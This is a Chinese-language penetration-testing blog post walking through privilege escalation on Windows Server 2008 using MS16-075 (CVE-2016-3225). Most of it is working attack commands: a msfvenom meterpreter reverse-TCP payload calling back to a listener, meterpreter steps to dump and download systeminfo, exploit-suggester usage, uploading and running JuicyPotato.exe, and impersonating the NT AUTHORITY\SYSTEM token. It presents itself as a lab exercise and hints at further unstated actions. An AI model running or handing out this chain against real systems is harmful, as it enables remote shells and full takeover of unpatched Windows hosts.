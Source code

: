 ```yaml
---
title: ms-16075提权Windows Server 2008
categories:
- 渗透测试
tags:
- 渗透测试
- 烂土豆
- 提权
- ms-16075
abbrlink: 29481
date: 2020-05-09 11:25:16
keywords:
description:
---
```


>光看网上的文章是不够的，还是要多动手才行


#### ms16-075漏洞简介
Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。
漏洞详情，[请戳这里](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2016/ms16-075)




#### 开始动手
1.假设是msfvenom生成木马，目标执行了，监听会话，获得meterpreter会话权限

```bash
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.0.103 lport=4444 -f exe > shell.exe
```

2.先看一下当前权限(确保我没有作弊)
![](http://image.geoer.cn/ms16075_download.png)

3.查看系统信息，并导出
```bash
# (进入cmd)
shell
chcp   65001     # 将编码格式改为utf-8中文
systeminfo >> c:\out.txt   将系统信息输出到out.txt文件
```

4.在meterpreter把结果文件下载到本地

```bash
download   D:\\xxxx\\upload\\out.txt   /tmp/out.txt    
```
![](http://image.geoer.cn/ms16075_download.png)



5.这里选择`Windows-Exploit-Suggeste`提权辅助工具，对结果文件在本地进行分析, 查找系统未打补丁有哪些
```
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -i out.txt -d 2020-05-09-mssb.xls -l  # -i是systeminfo的结果文件
```
![](http://image.geoer.cn/ms16075_poc.png)

可以看到可能存在ms16-075漏洞
![](http://image.geoer.cn/ms16075_in.png)


6.开始验证
```bash
# 上传ms16-075的exp: JuicyPotato.exe至靶机
upload /root/Desktop/JuicyPotato.exe  C:\\

execute -cH -f  C:\\JuicyPotato.exe    # 执行poc(前面已经把poc上传到目标了), 创建新的进程
impersonate_token "NT AUTHORITY\\SYSTEM"    # 窃取, 假冒目标主机上的可用令牌

```
![](http://image.geoer.cn/ms16075_in.png)

7.查看当前权限，提取成功
```bash
getuid                # 查看当前权限
```
![](http://image.geoer.cn/ms16075_ok.png)


8.后面的事情，嘿嘿你懂得



>这里只是没有防护的情况下的一次简单实验，有点简陋有点水



